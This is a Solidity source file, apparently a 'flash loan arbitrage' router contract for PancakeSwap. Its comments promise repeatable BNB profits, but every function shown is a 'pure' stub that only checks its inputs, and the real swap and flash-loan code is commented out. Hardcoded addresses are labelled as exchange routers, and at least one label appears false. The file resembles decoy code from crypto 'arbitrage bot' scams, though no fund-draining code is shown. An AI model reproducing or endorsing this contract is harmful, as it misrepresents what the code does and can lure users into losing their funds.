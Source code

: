 pragma solidity ^0.5.0;


interface IPancakePair {
    event Approval(
        address indexed owner,
        address indexed spender,
        uint256 value
    );
    event Transfer(address indexed from, address indexed to, uint256 value);

    function name() external pure returns (string memory);

    function symbol() external pure returns (string memory);

    function decimals() external pure returns (uint8);

    function totalSupply() external view returns (uint256);

    function balanceOf(address owner) external view returns (uint256);

    function allowance(address owner, address spender)
        external
        view
        returns (uint256);

    function approve(address spender, uint256 value) external returns (bool);

    function transfer(address to, uint256 value) external returns (bool);

    function transferFrom(
        address from,
        address to,
        uint256 value
    ) external returns (bool);

    function DOMAIN_SEPARATOR() external view returns (bytes32);

    function PERMIT_TYPEHASH() external pure returns (bytes32);

    function nonces(address owner) external view returns (uint256);

    function permit(
        address owner,
        address spender,
        uint256 value,
        uint256 deadline,
        uint8 v,
        bytes32 r,
        bytes32 s
    ) external;

    event Mint(address indexed sender, uint256 amount0, uint256 amount1);
    event Burn(
        address indexed sender,
        uint256 amount0,
        uint256 amount1,
        address indexed to
    );
    event Swap(
        address indexed sender,
        uint256 amount0In,
        uint256 amount1In,
        uint256 amount0Out,
        uint256 amount1Out,
        address indexed to
    );
    event Sync(uint112 reserve0, uint112 reserve1);

    function MINIMUM_LIQUIDITY() external pure returns (uint256);

    function factory() external view returns (address);

    function token0() external view returns (address);

    function token1() external view returns (address);

    function getReserves()
        external
        view
        returns (
            uint112 reserve0,
            uint112 reserve1,
            uint32 blockTimestampLast
        );

    function price0CumulativeLast() external view returns (uint256);

    function price1CumulativeLast() external view returns (uint256);

    function kLast() external view returns (uint256);

    function mint(address to) external returns (uint256 liquidity);

    function burn(address to)
        external
        returns (uint256 amount0, uint256 amount1);

    function swap(
        uint256 amount0Out,
        uint256 amount1Out,
        address to,
        bytes calldata data
    ) external;

    function skim(address to) external;

    function sync() external;

    function initialize(address, address) external;
}

contract RouterV2 {

    function pancakeRouterV2Address() public pure returns (address) {
        return 0x05fF2B0DB69458A0750badebc4f9e13aDd608C7F;
    }

    function compareStrings(string memory a, string memory b)
        public pure
        returns (bool)
    {
        return (keccak256(abi.encodePacked((a))) ==
            keccak256(abi.encodePacked((b))));
    }

    function pancakeSwapAddress() public pure returns (address) {
        return 0x752656e0016AB2a5c6C89B5b7b50c90D143C147b;
    }

    //1. A flash loan borrowed 3,137.41 BNB from Multiplier-Finance to make an arbitrage trade on the AMM DEX PancakeSwap.
    function borrowFlashloanFromMultiplier(
        address add0,
        address add1,
        uint256 amount
    ) public pure {
        require(uint(add0) != 0, "Address is invalid.");
        require(uint(add1) != 0, "Address is invalid.");
        require(amount > 0, "Amount should be greater than 0.");
    }

    //To prepare the arbitrage, BNB is converted to BUSD using PancakeSwap swap contract.
    function convertBnbToBusd(address add0, uint256 amount) public pure {
        require(uint(add0) != 0, "Address is invalid");
        require(amount > 0, "Amount should be greater than 0");
    }

    function bakerySwapAddress() public pure returns (address) {
        return 0xE02dF9e3e622DeBdD69fb838bB799E3F168902c5;
    }

    //The arbitrage converts BUSD for BNB using BUSD/BNB PancakeSwap, and then immediately converts BNB back to 3,148.39 BNB using BNB/BUSD BakerySwap.
    function callArbitrageBakerySwap(address add0, address add1) public pure {
        require(uint(add0) != 0, "Address is invalid!");
        require(uint(add1) != 0, "Address is invalid!");
    }

    //After the arbitrage, 3,148.38 BNB is transferred back to Multiplier to pay the loan plus fees. This transaction costs 0.2 BNB of gas.
    function transferBnbToMultiplier(address add0)
        public pure
    {
        require(uint(add0) != 0, "Address is invalid!");
    }

    //5. Note that the transaction sender gains 3.29 BNB from the arbitrage, this particular transaction can be repeated as price changes all the time.
    function completeTransation(uint256 balanceAmount) public pure {
        require(balanceAmount >= 0, "Amount should be greater than 0!");
    }

    function swap(
        uint256 amount0Out,
        uint256 amount1Out,
        address to
    ) external pure {
        require(
            amount0Out > 0 || amount1Out > 0,
            "Pancake: INSUFFICIENT_OUTPUT_AMOUNT"
        ); 
        require(uint(to) != 0, "Address can't be null");/*
        (uint112 _reserve0, uint112 _reserve1,) = getReserves(); // gas savings
        require(amount0Out < _reserve0 && amount1Out < _reserve1, 'Pancake: INSUFFICIENT_LIQUIDITY');

        uint balance0;
        uint balance1;
        { // scope for _token{0,1}, avoids stack too deep errors
        address _token0 = token0;
        address _token1 = token1;
        require(to != _token0 && to != _token1, 'Pancake: INVALID_TO');
        if (amount0Out > 0) _safeTransfer(_token0, to, amount0Out); // optimistically transfer tokens
        if (amount1Out > 0) _safeTransfer(_token1, to, amount1Out); // optimistically transfer tokens
        if (data.length > 0) IPancakeCallee(to).pancakeCall(msg.sender, amount0Out, amount1Out, data);
        balance0 = IERC20(_token0).balanceOf(address(this));
        balance1 = IERC20(_token1).balanceOf(address(this));
        }
        uint amount0In = balance0 > _reserve0 - amount0Out ? balance0 - (_reserve0 - amount0Out) : 0;
        uint amount1In = balance1 > _reserve1 - amount1Out ? balance1 - (_reserve1 - amount1Out) : 0;
        require(amount0In > 0 || amount1In > 0, 'Pancake: INSUFFICIENT_INPUT_AMOUNT');
        { // scope for reserve{0,1}Adjusted, avoids stack too deep errors
        uint balance0Adjusted = balance0.mul(1000).sub(amount0In.mul(2));
        uint balance1Adjusted = balance1.mul(1000).sub(amount1In.mul(2));
        require(balance0Adjusted.mul(balance1Adjusted) >= uint(_reserve0).mul(_reserve1).mul(1000**2), 'Pancake: K');
        }

        _update(balance0, balance1, _reserve0, _reserve1);
        emit Swap(msg.sender, amount0In, amount1In, amount0Out, amount1Out, to);*/
    }

    function lendingPoolFlashloan(uint256 _asset) public pure {
        uint256 data = _asset; 
        require(data != 0, "Data can't be 0.");/*
        uint amount = 1 BNB;

        ILendingPool lendingPool = ILendingPool(addressesProvider.getLendingPool());
        lendingPool.flashLoan(address(this), _asset, amount, data);*/
    }
}
